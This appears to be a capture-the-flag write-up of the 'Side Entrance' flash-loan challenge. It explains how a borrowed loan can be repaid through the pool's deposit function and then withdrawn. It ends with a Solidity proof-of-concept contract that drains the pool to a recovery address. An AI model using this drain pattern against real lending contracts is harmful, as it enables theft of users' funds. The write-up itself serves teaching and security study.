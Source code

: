 contract is `SideEntranceLenderPool.sol` which enforces anyone calling the `flashloan` implements  the`execute` function, the `execute` is expecting the caller of said function to send the amount he borrowed or else the transaction will revert.

### Entry Point

1. Deposit: This function can be called by anyone and since the callback runs after we call flashloan we can make use of this.
2. withdraw: The `balances` map now has a record of our deposit meaning we can call the withdraw function and take the funds.


## POC

```js
contract SideEntranceAttacker {
	// address of the recovery
	// the pool

	SideEntranceLenderPool pool;
	address payable public recovery;


	constructor(address _pool, address payable _recovery) {
		pool = SideEntranceLenderPool(_pool);
		recovery = _recovery;
	}
	function attack() public {
		uint256 poolBalance = address(pool).balance;
		pool.flashloan(poolBalance);
		// this sends the deposited amount to this contract
		pool.withdraw();
		// rescue the funds to the recovery account
		recovery.transfer(address(this).balance);
	}
	function execute() external payable  {
		 pool.deposit{value: msg.value}();
	}
	// we have this here so we can receive funds
	receive() external payable {}
}
```


